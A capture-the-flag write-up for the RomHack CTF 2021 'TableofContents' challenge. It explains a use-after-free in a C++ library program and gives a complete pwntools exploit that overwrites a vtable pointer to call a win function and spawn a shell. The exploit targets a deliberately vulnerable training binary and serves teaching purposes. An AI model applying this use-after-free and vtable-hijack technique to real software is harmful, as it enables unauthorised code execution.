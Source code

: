 # RomHack CTF 2021 TableofContents

## Introduction

The challenge disclosed the source code of some library application. Looking through the source you immediately notice how broken it is.
Specifically when you borrow a book you'll be left with a dangling Use after Free. The challenge is called `TableofContents` and written in C++, so... maybe vtables?

## Exploit

The idea was to overwrite the vtables of a `Book` in order to execute the `win` function instead of the `feedback` (Who needs feedback anyways).
It works like this:

1. Create some books
2. Borrow a book
3. Create a new page in some previously created book that contains crafted vtable entries re-pointing `feedback` to `win`
4. Return the book and borrow another one.
5. Create a new page in some previously created book that contains at least the vtable pointer to the previously crafted one.
6. Execute `win` by giving some feedback and spawn a shell.

Since addresses are static and we always get the address of stuff we previously borrowed we can always deduce the addresses that our pages will be created in. After we spawned a shell the flag could be disclosed from the current user's home directory. The full exploit looks as follows:

```python
#!/bin/env python3

from pwn import *

winAddress = 0x401E30
nullPtr = 0x0

def skipMenu(p):
    p.recv()

def addPage(p, content, index):
    p.sendline(b'3')
    p.recv()
    p.sendline(str(index))
    p.recv()
    p.sendline(b'2')
    p.recv()
    p.sendline(str(len(content)))
    p.recv()
    p.sendline(content)
    p.recv()

def donateBook(p, title):
    p.sendline(b'1')
    p.recv()
    p.sendline(title)
    skipMenu(p)

def borrowBook(p, index) -> int:
    p.sendline(b'3')
    p.recv()
    p.sendline(str(index))
    p.recv()
    p.sendline(b'1')
    p.recvuntil(":")
    addrLine = p.recvline()
    p.recv()
    return int(addrLine[3:-1], 16)

def returnBook(p, address):
    p.sendline(b'4')
    p.recv()
    p.sendline(hex(address))
    p.recv()

def valuableFeedback(p, funnyBook, command):
    p.sendline(b'5')
    p.recv()
    p.sendline(str(funnyBook))
    p.recv()
    p.sendline(command)
    p.interactive()


def makeVtPtr(address):
    return address.to_bytes(8, byteorder='little')

vtable = (makeVtPtr(nullPtr) * 5) + makeVtPtr(winAddress) + b'a' * 16
p = process("./tableofcontents")
# p = remote(HOST, PORT)
skipMenu(p)
donateBook(p, "book1")
donateBook(p, "book2")
donateBook(p, "book3")
add = borrowBook(p,0)
book = makeVtPtr(add) + b'a' * 56
secondBookAddress = add + 0x70
addPage(p, vtable, 2)
returnBook(p, secondBookAddress)
borrowBook(p, 1)
addPage(p, book, 2)
log.info("Spawning a Shell, have fun!")
valuableFeedback(p, 1, 'bash')
```
